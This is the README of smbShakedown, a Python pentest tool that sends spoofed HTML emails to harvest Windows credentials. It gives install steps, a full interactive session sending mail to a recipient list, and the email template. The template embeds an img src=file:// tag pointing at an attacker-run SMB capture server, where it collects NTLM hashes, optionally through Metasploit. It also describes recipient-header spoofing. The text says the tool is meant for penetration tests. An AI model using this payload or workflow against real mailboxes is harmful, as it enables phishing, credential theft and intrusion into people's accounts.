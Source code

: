#smbShakedown ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
    Description: A simplified SMB Email Client Attack script used for pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.10252016.b
  
***  
INFO 10-25-16:
	
	README.MD / Help file are outdated.
	ADDED Option to Spoof Recipient header. (Also helps avoid orange "?" in Outlook)
	ADDED Option to insert HyperLink.
	ADDED HTTP Server feature to host a Web page with the HTML IMG SRC TAG.
	ADDED REDIRECT OPTION FOR HTTP SERVER.(Redirect back to client's site) - currently broken, working on a fix.
  	
  
***  
Installation:

    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py

***
Usage:

    1.Enter SMTP Server address:
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not supported.)
    
    3.Configure "from" and "to" addresses:
    (TIP: For multiple addresses, enter a file or seperate with a comma)
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.

***
Note: 

	If using Google's SMTP servers, ensure you have enabled "Less Secure Apps" on your account.
	
	Path: https://www.google.com/settings/security/lesssecureapps
	EX: Allow less secure apps: ON
	
	Please be aware this setting is not available for accounts with 2-Step Verification enabled. 
	Such accounts require an application-specific password for less secure apps access.


***
Example:
       
	External IP: 100.100.100.100
	Internal IP: 10.37.242.7
	
	
	Enter SMTP Server address[smtp.gmail.com]: 
	ENTERED: "smtp.gmail.com"
	
	Enter your SMTP Server Port[587]: 
	ENTERED: "587"
	
	Enter SMTP Server username[user@gmail.com]: user@gmail.com
	ENTERED: "user@gmail.com"
	
	Enter SMTP Server password: 
	
	
	Enter SMB Capture Server IP address[10.37.242.7]: 
	ENTERED:10.37.242.7
	
	Enter "from name":[Tester]
	ENTERED:Tester
	
	Enter "from address":[user@gmail.com]
	ENTERED:user@gmail.com
	
	Enter recipient(s) name[Client]: Client
	ENTERED:Client
	
	TIP: For multiple addresses, enter a file or seperate with a comma
	EX:/opt/emailAddresses.txt or user1@company.com,user2@company.com
	Enter recipient addresses[File or individual email(s)]): /opt/emailAddresses.txt
	ENTERED:/opt/emailAddresses.txt
	
	ENTERED:['user1@company.com', 'user2@company.com']
	
	Email Message Template Below:
	From: Tester <user@gmail.com>
	To: Client <['user1@company.com', 'user2@company.com']>
	MIME-Version: 1.0
	Content-type: text/html
	Subject: smbShakedown.py test.
	
	
	...
	<b>smbShakedown.py test message.</b>
	<br>
	<img src=file://100.100.100.100/image/foo.gif>
	
	Testing Connection to your SMTP Server...
	('SMTP Server Status: ', 250)
	Connection to SMTP Server is successful, would you like to send mail now?[yes]:yes
	ENTERED: "yes"
	
	Message(s) sent!
	no
	Launch Metasploit's SMB Capture module?[yes]:no
	ENTERED: "no"
	
	Ok, remember to setup your SMBCapture Server elsewhere. 


***        
To update email template modify the following in source:
Becareful not to remove the variables {0},{1},{2} and {3}

    ### EDIT: Email Message Template Below ###
	message = """From: {0} <{1}>
    To: {2}
    MIME-Version: 1.0
    Content-type: text/html
    Subject: smbShakedown.py test.


    ...
    <b>smbShakedown.py test message.</b>
    <br>
    <img src=file://{3}/image/foo.gif>
    """
    ##########################################################

***
To do:

	Add error handling.


